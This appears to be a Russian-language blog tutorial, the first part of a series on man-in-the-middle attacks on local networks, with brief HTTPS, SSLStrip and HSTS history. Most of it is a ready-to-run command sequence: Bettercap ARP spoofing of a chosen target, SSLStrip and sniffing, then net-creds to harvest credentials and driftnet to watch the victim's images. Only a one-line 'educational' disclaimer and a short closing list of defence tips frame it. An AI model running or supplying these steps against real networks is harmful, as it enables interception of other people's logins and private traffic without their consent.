

<h1>(Bettercap, net-creds). MITM. Часть 1. Введение в атаку MITM. Перехват данных в локальной сети.</h1>

<b>Материал предоставлен в ознакомительных и образовательных целях.</b> 

<b>Внимание! В этой теме очень часто что-нибудь меняется. Следите за обновлениями. Если гайд стал
некорректным, а я этого не заметил, пишите на highsierra.2007@mail.ru</b> 
<i>Последнее обновление: </i> 26.10.2021

<b><i>Содержание</i></b> 
<a href="#introduction">1. Введение. Требования.</a> 
<a href="#introtomitm">2. Понятие атаки MITM.</a> 
<a href="#prepare">3. Подготовка среды.</a> 
<a href="#bettercap">4. Запускаем Bettercap.</a> 
<a href="#netcreds">5. Запускаем net-creds.</a> 
<a href="#example">6. Пример перехваченных данных.</a> 
<a href="#end">8. Подведение итогов. Рекомендации по защите. Полезные ссылки.</a> 

<h2>Введение. Требования.</h2>
Рад приветствовать читателей. В этой статье мы разберем что такое атака MITM, когда она применима
и попробуем ее произвести.
Требования:
<ul>
  <li>Иметь доступ к сети, в которой находится цель</li>
</ul>
<i>Примечание: </i> если у вас уже есть доступ к сети, вам не нужен Wi-Fi адаптер с поддержкой режима 
мониторинга. Главное быть просто подключенным к сети.

<h2>Понятие атаки MITM.</h2>
MITM (Man In The Middle - Человек Посередине) - атака, суть которой заключается в том, чтобы
встать посередине соединения цели с роутером и перехватывать данные.   

<h3>Немного истории</h3>
<ul>
  <li>
  Когда все сайты были по http://, атака MITM была очень эффективной, получалось перехватить все данные.  
Однако, для того, чтобы этому противостоять, был создан протокол https://, который подразумевает шифрование данных. Вроде бы проблема должна была быть
    решена, однако, никто принудительно не заставлял использовать https.</li>
  <li>В итоге получалось с помощью утилиты SSLStrip убрать букву s из https:// и получить http://, что снова позволяло перехватывать данные.</li>
<li>В противодействие этому был придуман HSTS. Он принудительно переводит на страницу по https:// (а если это невозможно, зайти на сайт не получится). Однако,
HSTS - это просто кука, которую пользователь должен каким-либо образом получить. Т.е., если пользователь
пользуется режимом инкогнито, либо очищает куки при закрытии браузера, либо посещает сайт первый раз,
  этой куки у него нет, и есть вероятность, что пользователь все равно попадет на http://. </li> 
  <li>Тогда последним 
шагом к защите пользователей от атаки MITM, стало включение во все браузеры списка сайтов, которые должны 
    открываться только по https://. Туда входят все крупные сайты. </li> 
</ul>

Проверить, выйдет ли у вас что-нибудь во время сегодняшней атаки, вы можете, введя желаемый адрес сайта здесь: 
<a href="https://hstspreload.org" target="_blank">hstspreload.org</a>

<h2>Подготовка среды.</h2>
Начнем с простого и установим Bettercap в нашу систему:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo apt update && sudo apt install bettercap</pre>
Далее нам предстоит установить net-creds. Если бы сейчас перед нами был не Kali Linux, а тот же Arch Linux, то хватило бы двух команд, но в Debian, Kali Linux, Ubuntu и множестве других дистрибутивов прекратили поддержку Python 2, а net-creds написан именно на нем. Поэтому, первым делом, добываем себе PIP для Python 2 и устанавливаем его:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">wget https://bootstrap.pypa.io/pip/2.7/get-pip.py && python2 get-pip.py</pre> // если из дистрибутивов уберут и сам пакет python2, то по-видимому, мне придется делать форк net-creds но переделанный уже на Python 3, ибо забросили его.  
Переходим в директорию, куда был только что установлен PIP:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">cd ~/.local/bin</pre>
Обновляем пакет setuptools, т.к. со старой версией последующие пакеты не установятся.
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">./pip2 install --upgrade setuptools</pre>
Устанавливаем модули scapy и wsgiref
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">./pip2 install scapy wsgiref</pre>
Т.к. мы запустили pip2 от имени обычного пользователя, то модуль scapy установился в домашнюю директорию пользователя. Все бы хорошо, но net-creds мы запускаем от рута, а значит Python будет искать модули в /usr/lib, копируем scapy туда. Прошу обратить внимание на то, что pip установил их в директорию с модулями Python 3, а не 2 и нужно скопировать установленный нами модуль туда, куда нужно:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo mkdir /usr/lib/python2.7/dist-packages/scapy && sudo cp -avr /usr/lib/python3/dist-packages/scapy/* /usr/lib/python2.7/dist-packages/scapy</pre>
Возвращаемся в домашнюю директорию и клонируем репозиторий net-creds.
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">cd ~ && git clone https://github.com/DanMcInerney/net-creds.git</pre>

<h2>Запускаем Bettercap.</h2>
Собственно, запускаем :-)
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo bettercap -iface [interface]</pre>, где [interface] - имя используемого интерфейса, посмотрите в ifconfig (без скобок).
Включаем обнаружение устройств в сети:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">net.probe on</pre>
Включаем обновление списка устройств:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">ticker on</pre>
Выводим на экран полученный список устройств:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">net.show</pre>
Выбираем цель и устанавливаем ее:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">set arp.spoof.targets [ip]</pre>, где [ip] - IP-адрес цели (без скобок)
Включаем ARP-спуфинг:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">arp.spoof on</pre>
Сокращаем количество сообщений, которые будут сыпаться в консоль:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">set net.sniff.verbose false</pre>
Включаем SSLStrip:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">set http.proxy.sslstrip true</pre>
Включаем прокси:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">http.proxy on</pre>
Включаем сниффинг:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">net.sniff on</pre>

<h2>Запускаем net-creds.</h2>
<i>(в другом окне терминала)</i> 
Переходим в директорию с net-creds:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">cd net-creds</pre>
Запускаем net-creds:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo python2 net-creds.py</pre> Опционально можно добавить -i [interface], чтобы указать конкретный интерфейс (нужно использовать тот же, что и в Bettercap) (без скобок)  
При желании, вы можете запустить driftnet, чтобы видеть картинки, которые сейчас пользователь видит в браузере. Для начала установите его:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo apt update && sudo apt install driftnet</pre>
А затем запустите:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo driftnet -i [interface]</pre>, где [interface] - желаемый интерфейс (нужно использовать тот же, что и в Bettercap) (без скобок)

<h2>Пример перехваченных данных.</h2>
<i>В работе...</i>

<h2>Подведение итогов. Рекомендации по защите. Полезные ссылки.</h2>
<h3>Полезные ссылки.</h3>
<ul>
  <li><a href="https://kali.tools/?p=3870">Hackware: руководство по использованию Bettercap</a></li>
  <li><a href="https://kali.tools/?p=1600">Hackware: руководство по использованию Driftnet</a></li>
  <li><a href="https://kali.tools/?p=179">Hackware: руководство по использованию MITMf</a></li>
</ul>

<h3>Рекомендации по защите.</h3>
<ul>
  <li>Не заходить в свои учетные записи на сайтах в открытых сетях</li>
  <li>Поддерживать безопасность личной сети Wi-Fi, иначе будет равноценна открытой сети</li>
  <li>Использовать расширение HTTPS Everywhere (<a href="https://chrome.google.com/webstore/detail/https-everywhere/gcbommkclmclpchllfjekcdonpmejbdp">Chrome Web Store</a> | <a href="https://addons.mozilla.org/en-US/firefox/addon/https-everywhere">Firefox Browser Add-ons</a>)</li>
</ul>

Итак, мы познакомились с атакой MITM.  
<a href="../index">Назад к списку статей...</a>
